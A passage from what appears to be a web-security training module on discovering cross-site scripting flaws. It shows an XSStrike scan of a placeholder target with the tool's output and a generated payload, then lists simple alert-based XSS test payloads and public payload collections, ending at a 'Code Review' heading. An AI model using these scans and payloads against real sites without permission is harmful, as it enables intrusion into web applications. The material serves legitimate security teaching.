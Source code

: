 #### Example:

```bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

**Output:**

```
XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: task 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <HtMl%09onPoIntERENTER+=+confirm()> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N]
```

The tool identified the parameter as vulnerable to XSS. Try verifying the payload by testing it in previous exercises. Experiment with other tools and observe their effectiveness in detecting XSS vulnerabilities.

## Manual Discovery

The difficulty of manual XSS discovery depends on the security level of the web application. Basic vulnerabilities can often be found by testing common XSS payloads, but advanced vulnerabilities require in-depth code review skills.

### XSS Payloads

The simplest method for finding XSS vulnerabilities is manually testing various payloads against an input field in a web page. You can find extensive payload lists online, such as:

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [PayloadBox](https://github.com/payloadbox)

Examples:

```html
<script>alert(1)</script>
<img src="" onerror=alert(1)>
<style>body{background:expression(alert(1))}</style>
```

These payloads can be tested in HTML input fields or HTTP headers (e.g., Cookie, User-Agent). However, most will fail as they are designed for specific scenarios or to bypass security measures. Writing custom scripts to automate testing can save time and effort.

### Code Review
